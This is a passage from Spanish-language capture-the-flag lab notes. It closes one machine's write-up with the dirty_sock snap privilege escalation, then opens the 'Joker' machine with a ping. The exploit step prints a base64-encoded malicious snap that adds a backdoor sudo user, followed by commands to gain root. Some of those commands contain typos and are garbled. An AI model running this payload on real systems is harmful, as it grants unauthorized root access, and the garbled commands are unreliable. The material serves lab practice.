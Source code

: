 copiamos el output y recreamos el paquete snap malicioso

```bash
cd /tmp
pytho -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD
//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29
jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1
EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q
gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N
1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB
leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA
gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA
BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F
qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4
wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj
NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt
vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA
AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="' | base64 -d > setenso.snap

sudo /usr/bin/snap install setenso.snap --devmode
cat /etc/passwd
sudo dirty_sock > password dirty_sock
sudo su > password dirty_sock

whoami
#Output
root
```



# Joker {-}

## Introduccion {-}

La maquina del dia 26/07/2021 se llama Joker.

El replay del live se puede ver en [Twitch: S4vitaar Joker maquina](https://www.twitch.tv/videos/1098850596)



## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.21
```
ttl: 63 -> maquina linux
